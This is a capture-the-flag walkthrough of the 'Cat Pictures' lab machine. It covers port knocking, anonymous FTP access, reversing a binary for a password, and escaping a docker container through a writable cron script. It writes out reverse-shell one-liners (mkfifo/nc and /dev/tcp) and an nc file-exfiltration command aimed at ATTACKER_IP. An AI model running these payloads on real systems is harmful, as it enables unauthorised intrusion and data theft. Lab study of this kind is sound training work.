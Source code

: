 # Cat Pictures

##### Written: 30/11/2021

##### IP address: 10.10.21.0

---

### [ Flag 1 ]

As usual, let's run an **nmap** scan on the target to enumerate the services that it's running.

```
sudo nmap -sC -sV -vv -T4 10.10.21.0
```

From the results, we find out that there are three open ports. There are also two ports which seem to be hidden behind a firewall.

```
21/tcp   filtered ftp
22/tcp   open     ssh
2375/tcp filtered docker
4420/tcp open     nvm-express?
8080/tcp open http-proxy
```

Looks like we have access to a SSH server, a HTTP Web server and an unknown service running on port 4420. The FTP server is currently inaccessible by us. There is also a docker service running on port 2375.

<br>

Let's take a look at the HTTP Web server:

<img style="float: left;" src="screenshots/screenshot1.png">

We have a forum page that is built on **phpBB**. Before we do our happy-path enumeration, let's run a **Gobuster** directory scan to see if we can find any hidden directories.

```
gobuster dir -u http://10.10.21.0:8080/ -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -x php,html,txt -t 50
```

I let the scan run for awhile, and it did find many different directories and files, but they were all ultimately of no use to us. 

<br>

Let's now check out the post on the webpage.

<img style="float: left;" src="screenshots/screenshot2.png">

We have a post titled 'Post cat pictures here!'. We also have an interesting message: 

`Knock knock! Magic numbers: 1111, 2222, 3333, 4444`

Hmmmm.... '**Knock knock**' and numbers that look like port numbers.... Could this be a **port knocking** sequence?

---

*Port Knocking is a method of externally opening ports on a firewall by generating a connection attempt on a set of prespecified closed ports. Once a correct sequence of connection attempts is received, the firewall rules are dynamically modified to allow the host which sent the connection attempts to connect over specific port(s).*

---

Perhaps if we were to visit these ports in sequence, we will be able to access the two services that are currently hidden behind the firewall! Let's try it out by visiting these ports in order:

```
telnet 10.10.21.0 1111
telnet 10.10.21.0 2222
telnet 10.10.21.0 3333
telnet 10.10.21.0 4444
```

Once we are done, we can run an nmap scan on the target again:

<img style="float: left;" src="screenshots/screenshot3.png">

Nice! Access to the FTP server has been unlocked. 

From the nmap scan, we also know that the FTP server has **anonymous login** enabled. This means that we can log into it without supplying a password. Let's login and grab the '**note.txt**' file inside.

<img style="float: left;" src="screenshots/screenshot4.png">

<br>

**Contents of note.txt:**

<img style="float: left;" src="screenshots/screenshot5.png">

Nice, we now have a password - **sardinethecat**

The unknown service running on port 4420 turned out to be an internal shell service. Let's log into it with our newfound password.

```
nc 10.10.21.0 4420
```

<img style="float: left;" src="screenshots/screenshot6.png">

And we're in! 

<br>

The first thing that I noticed was that the machine was very limited in terms of the commands that it could run. It couldn't run basic commands like `cd`, `whoami` and many others.  In fact, if we look at the **/bin** directory, we can see that there are only a handful of programs that are installed.

<img style="float: left;" src="screenshots/screenshot7.png">

With that in mind, let's take a look around.

<br>

<img style="float: left;" src="screenshots/screenshot8.png">

I found a binary called **runme** in the home directory of the **catlover** user. Let's try to run it.

<img style="float: left;" src="screenshots/screenshot9.png">

Welp, looks like we need to find a way to upgrade our shell. Let's try opening a reverse shell back into our machine.

I tried a few reverse shell payloads from **PayloadsAllTheThings** (https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Methodology%20and%20Resources/Reverse%20Shell%20Cheatsheet.md), before finding one that worked:

``` 
rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc ATTACKER_IP PORT >/tmp/f
```

<img style="float: left;" src="screenshots/screenshot10.png">

And we're in yet again! Now we can run the `runme` binary:

<img style="float: left;" src="screenshots/screenshot11.png">

We need another password. Unfortunately, '**sardinethecat**' did not work.

My next thought was to download the binary onto my local machine so that I could analyze it. We can use `nc` (as it is installed on the target machine) and some basic piping to do so:

```
// on local machine
nc -lvnp 5555 > runme

// on target machine
nc ATTACKER_IP PORT < /home/catlover/runme
```

<br>

With the binary now on my local machine, I passed it to **Binary Ninja** (https://cloud.binary.ninja/) to reverse engineer the code.

<img style="float: left;" src="screenshots/screenshot12.png">

Once the reverse engineering is complete, I looked at the main() function. As we can see, the password is actually exposed in the code - **rebecca**

Let's go back into the target machine and run `runme` again.

<img style="float: left;" src="screenshots/screenshot13.png">

We now have a **private ssh key** in catlover's home directory:

<img style="float: left;" src="screenshots/screenshot14.png">

We can simply cat out the contents of the key, copy it over to a file on our local machine, and use it to log into ssh! *(make sure permissions of the key is either 400 or 600)*

<img style="float: left;" src="screenshots/screenshot15.png">

Great, we are now logged in as the **root** user!

<img style="float: left;" src="screenshots/screenshot16.png">

We can grab the first flag in the **/root** directory.

---

### [ Flag 2 ]

It seem like the flag that we found is not actually the final root flag. I tried using the `find` command to search for the other flag:

```
find / -iname '*flag*' 2>/dev/null
```

However, I was unable to find flag 2.

Remember that **docker** is running on port 2375? Perhaps we are currently in a docker container? We can verify this by looking for a **.dockerenv** file in the root ('/') directory.

<img style="float: left;" src="screenshots/screenshot17.png">

The file is indeed present, which confirms that we are in a docker container! Now we need to find a way to break out of the container. From past experiences, this is normally done through a script that is run as a **cronjob** by the root user outside of the container. Let's look around the machine to see if we can find such a script.

<br>

One place I looked was the **.bash_history** file:

<img style="float: left;" src="screenshots/screenshot18.png">

There's an interesting script called **clean.sh** located in **/opt/clean**. Let's check it out.

<img style="float: left;" src="screenshots/screenshot19.png">

Seems like the script is a cleaner script that removes all files in the **/tmp** directory. It would make sense for such a script to be run as a cronjob, so perhaps this is our ticket out of the docker container.

We also have write permissions to the script, so let's try to replace it with a reverse shell script:

```
echo '/bin/bash -l > /dev/tcp/ATTACKER_IP/PORT 0<&1 2>&1' > clean.sh
```

<img style="float: left;" src="screenshots/screenshot20.png">

After a few minutes, the reverse shell was opened and I was logged into the actual target machine as the root user.

<img style="float: left;" src="screenshots/screenshot21.png">

The final flag can be found in the **/root** directory.

